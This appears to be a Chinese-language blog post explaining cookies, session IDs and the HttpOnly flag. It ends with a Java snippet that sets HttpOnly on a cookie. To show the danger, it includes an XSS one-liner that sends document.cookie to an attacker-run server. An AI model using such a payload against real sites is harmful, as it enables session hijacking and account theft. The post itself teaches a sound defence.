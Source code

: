 ```yaml
---
title: HttpOnly详解
url: What_is_HttpOnly
tags:
  - Cookie
categories:
  - 编程杂谈
date: 2018-03-27 11:10:04
---
```


# 前言
`Http`连接是无状态的, 也就是说, 即使你发送第一次`Http`请求, 传了个`param`参数给`Web`服务器。第二次`Http`请求想获取`param`参数, 是获取不到的, 因为`Web`服务器是不认识你的。
为了完成这个需求, 我们可以使用`Cookie`和`Session`进行存储数据, 在`Cookie`中存入本次会话的`SessionID`, 那`Web`服务器从`Cookie`中获取`SessionID`就可以知道你是哪个用户, 知道你之前存了什么数据。

<!-- more -->

# 危险
我们知道`Cookie`是明文存储的, 甚至就算是小白用户, 也可以通过浏览器直接查看。那么如果小明知道了小红的`Cookie`里的用户凭证, 然后将自己的`Cookie`的用户凭证改为小红的用户凭证, 那不就可以看到小红的信息了? 

# HttpOnly
比如我自己搭建一个服务器`http://localhost:8080`, 然后在要窃取`Cookie`页面按下`F12`打开`Console`控制台执行下面代码(`XSS`攻击)

```js
window.open('http://localhost:8080?c='+document.cookie);
```

就可以将`Cookie`发送到我们自己的服务器。

那么, 只要不让`document`获取到敏感`Cookie`就好了。
为`Cookie`设置`HttpOnly`, 禁止`js`获取。

```java
@RequestMapping("/test")
public String test(HttpServletResponse response){
    Cookie cookie = new Cookie("key1", "value1");
    cookie.setHttpOnly(true); // 设置HttpOnly
    response.addCookie(cookie);
    return "test.jsp"
}
```

# 参考资料
- [关于cookie的安全性问题](https://segmentfault.com/q/1010000007347730)